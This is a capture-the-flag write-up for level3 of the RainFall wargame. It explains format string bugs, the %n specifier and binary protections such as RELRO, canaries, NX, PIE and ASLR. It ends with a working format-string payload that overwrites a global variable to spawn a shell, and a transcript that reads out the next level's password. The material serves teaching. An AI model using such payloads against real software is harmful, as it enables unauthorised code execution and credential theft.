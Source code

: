 # level3

### Understanding the problem

First, as always we analyze the code through ghidra, we get something looking like this:

```c
void v(void) {
  char local_20c [520];
  
  fgets(local_20c,0x200,stdin);
  printf(local_20c);
  if (m == 0x40) {
    fwrite("Wait what?!\n",1,0xc,stdout);
    system("/bin/sh");
  }
  return;
}
```

The main function is only calling v(). So as we can see this time we use fgets() a secured version of gets() that only takes a specific number of character, here 0x200 which in decimal is 512. the buffer is 520 chars long, longer than the input size accepted in the fgets(). No obvious security breach so far.

We see that in order to solve this exercise and launch a new shell, we need m to be equal to 0x40 which correspond to 64 in decimal, there are no declaration for m tho besides in ghidra at some point with the address 0x0804988c

We also quickly realized that the difference with level2 is the usage of printf instead of puts. Because we know already a lot about this function, we tried something:

```sh
level3@RainFall:~$ ./level3 
%s
Segmentation fault (core dumped)
```

So %s makes the program segfault, the interesting part here is that apparently the input we entered triggered something in printf, which is probably interpreting this %s as a string shared via a variable, but no variabe are present so the program segfault. However by testing a little more we found that:

```sh
level3@RainFall:~$ ./level3 
%d
512
```

The %d is interpreted, and with what ? The next variable in the stack, which apparently is the buffer size. We can now read into the stack with this exploit:

```sh
AAAA %x %x %x %x %x %x %x                                                            
AAAA 200 b7fd1ac0 b7ff37d0 41414141 20782520 25207825 78252078
```

We can see here a buffer that we fill by "AAAA", then the buffer size in hexadecimal form, then 2 addresses in the stack (starts with b), then our buffer again but stored (41 = A), and some random numbers after that. Problem here, how to write something ? We can read but we need somehow to make this mysterious m equal to 64. A surprising thing happen when doing this:

```sh
level3@RainFall:~$ ./level3 
%m
Success
```

Where m is supposed to be the month of the year in regular printf, here it prints Success. There is definitely something to do here but what?

### Strange login output (digression)

This part is, again, probably not gonna help us with this direct exercise but will help us understanding more things about our environment.
When we login we get this message (or similar) everytime:

```bash
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level3/level3
```

We are first gonna focus on the second part, with the RELRO, STACK CANARY etc... than can be obtained with this command:

```bash
level0@RainFall:~$ hecksec --file /home/user/level3/level3
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level3/level3
```

- RELRO - Relocation Read-Only. In ELF files, binay uses a look-up table called the GOT (Global Offset Table). This GOT is normally writable, so an attacker (us) could write a few bits on this GOT, and redirect code for malicious execution. Having this option desactivated like we have here since the beginning of those levels means that we can write on this GOT. The security added when activated is that the GOT is now read-only.

- STACK CANARY. This helps protecting stack overflows by simply adding random valued that will be validated at the end of the stack. If some malicious input are entered in the stack, the stack canary will be moved down and won't be valid, stopping the program and avoiding stack overflow. Here again it is deactivated since the beginning. (The story says that canary were used to detect toxic gases such as carbon monoxide in workspace). The canary is placed just before the return address so if it is modified we know a bufferflow is happening.

- NX - No-Execute. Here NX option is disabled, it was only enabled on level0 but disabled for the rest of the levels. This option is a built-in technology inside the CPU allowing to split the aread of memory into 2 sections, data, and code. When this option is enabled the memory space for data will not be able to execute code. which means that the stack, the heap or the BSS would not be able to execute code, for example when using a shellcode, if the NX bit was enabled, the code would not have been interpreted and executed but only read as data.

- PIE - Position Independent Executable. ELF files have a fixed base address space and code must be executed at this address in order to work. We saw it multiple time already but the code is loaded at 0x08048000 address space everytime which helps us to use it as valuable informations to make buffer overflow when this option is deactivated. For all levels so far this option have been deactivated.

- RPATH and RUNPATH define if the libraries on runtime are seached hard coded or not, having NO RPATH and NO RUNPATH is more secured to avoid arbitrary code execution.

As for the first part we have some elements that shows kernel security, they appears only when login in, where the program informations are printed when changing user. They just show some more protections that we can quickly describe like this using this command:

```
checksec --kernel
```

- GCC stack protector - when enable helps to protect buffer overflows. Here it is activated but never seemed to protect anything so far since all our buffer overflows exploits worked well.

- Strict user copy checks - disabled here, if it was activated it blocks certains interactions users have, for example not allowing them to copy files to kernel-spaces, and enforce user space memories rules.

- Read-only kernel data - Restrict /dev/mem - Restrict /dev/kmem - Those 3 options just add some security to prevent kernel memory modifications or simply access to any user, avoiding reading memory of certains area of the machine that could give very sensitive informations.

- grsecurity, PaX / Kernel Heap Hardening - Same thing they are both kernel protections, but those 2 are not enabled where the 3 we presented before are.

- ASLR - Address Space Layout Randomization is here not activated. As its name says, it allows the machine memory to not have fixed starting addresses but to be randomized, avoiding to know for instance that stacks memory starts by 0xb.

### Format String Vulnerability

The first thing we need to find is a way to write in the memory, because as far as we know, m is a global variable, declared but not set, so it is stored in bss space of the memory (this can be confirmed with objdump), if this variable is unset (and doesn't seem to be set anywhere in the program), we need to write 64 in it. For that we have this very weird but existing option in printf which is %n. %n allows us to __write__ the number of bytes printed so far at a certain address. The regular usage of it is as such:

```c
printf("This, is an %nexample", &addr);
```

This is gonna store 12 in addr (so the length of "This, is an "), into the next address present in memory, so here addr.

Here the next space in memory contains 0x200, for 512 in decimal and is probably the buffer size, so if we write %n, it is gonna try to write in the address memory 0x00000200 which is obviously not accessible by the program and will segfault:

```sh
level3@RainFall:~$ ./level3 
%n
Segmentation fault (core dumped)
```

So we need to somehow replace the address right next to the %n argument for the one of m. We also need to have a buffer of 64 chars before the %n so the value printed in m is 64 and fulfill the if statement. Thankfully we noticed that by printing a bunch of "%x" values, the buffer is stored not too far from where we're writing (stdin opened by fgets). So as a first try we just tried to print the addres, and a %n, and it segfault. Then trying to fill the space with random data to reach the 64 chars length, but same thing it segfault.

This last step of understanding took a looottttt of time to understand, but this is how it work. When entering the data in fgets, the values are passed to printf. When printf encounter a specific parameter such as %x, it is gonna "consume" a value from the stack, moving the stack pointer by one (It doesn't affect the rest of the execution, it is just consuming values inside printf, not for the rest of the execution). Which mean that if we could move the stack pointer to the space in the buffer when the address of m is, fill this buffer of 64 chars and finish it with a %n, then it should work. And it does:

```sh
level3@RainFall:~$ echo $(python -c "print('\x8c\x98\x04\x08' + '%x ' * 3 + 'A' * 38 + '%n')") > /tmp/payload
level3@RainFall:~$ cat /tmp/payload -| ./level3
�200 b7fd1ac0 b7ff37d0 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Wait what?!
whoami
level4
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

echo $(python -c "print( 'AAAAAAAAAAA0' + '\x8c\x98\x04\x08' + '%x' * 6 + 'aaaaa%n')") > /tmp/payload

## Important doc

[Video + short explanation for FSV](https://www.reddit.com/r/C_Programming/comments/18wtu9a/fgets_is_unsafe_so_whats_the_alternative/)

[CTF What's a format string vuln](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/)

[Exploiting format string vuln](https://medium.com/@gurdeeps158/exploit-format-string-vulnerability-in-printf-6740d9ff057e)

[Memory protection and bypasses](https://mdanilor.github.io/posts/memory-protections/)

[Checksec explained](https://medium.com/@slimm609/checksec-d4131dff0fca)

[Overwrite BSS memory values](https://medium.com/zh3r0/intro-to-pwn-protostar-format-strings-c86ca3458ad3)